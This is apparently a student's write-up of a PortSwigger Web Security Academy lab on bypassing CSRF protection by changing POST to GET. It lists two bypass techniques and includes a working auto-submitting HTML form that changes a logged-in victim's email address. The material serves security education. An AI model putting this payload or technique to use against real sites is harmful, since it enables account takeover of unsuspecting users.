 # Lab: CSRF where token validation depends on request method
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests. 
* Goal:  To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You can log in to your own account using the following credentials: `wiener:peter`


## Recon
1. Login and update email to trace the package
Like the previous lab, we first login to the website and update the email. At the same time, we can trace update email package shown below:
![](https://i.imgur.com/ju0fDUQ.png)
We can notice that the carried data including `csrf_token`
2. According to [从0到1完全掌握 CSRF](https://zhuanlan.zhihu.com/p/517735618) and [CSDN write up](https://blog.csdn.net/ZripenYe/article/details/120793710)
    :::info
    We know that using some technique can bypass this protection $\to$
        1. <font color="FF0000">**Delete `csrf_token` data**</font>
        2. <font color="FF0000">**change `POST` method to `GET` method**</font>

    In this lab, we use the 2nd method to bypass CSRF
    :::
![](https://i.imgur.com/U0mBdv8.png)
You can see that the response status is 302 which means it's a good way to forge a CSRF package

## Exp - Change POST to GET to bypass CSRF
Follow the self-created package at previous lab
Exploit Payload:
```javascript=
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>history.pushState('', '', '/')</script>
 
    <form action="https://0a9700ef04043a66801b0d0e00d10084.web-security-academy.net/my-account/change-email?email=bernie6401%40gmail.com" method="GET">
      <input type="hidden" name="email" value="danger&#64;gmail&#46;com" />
    </form>
    <script>
          document.forms[0].submit();
    </script>
  </body>
</html>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/lKFkGTy.png)
:::

## Reference
[从0到1完全掌握 CSRF](https://zhuanlan.zhihu.com/p/517735618)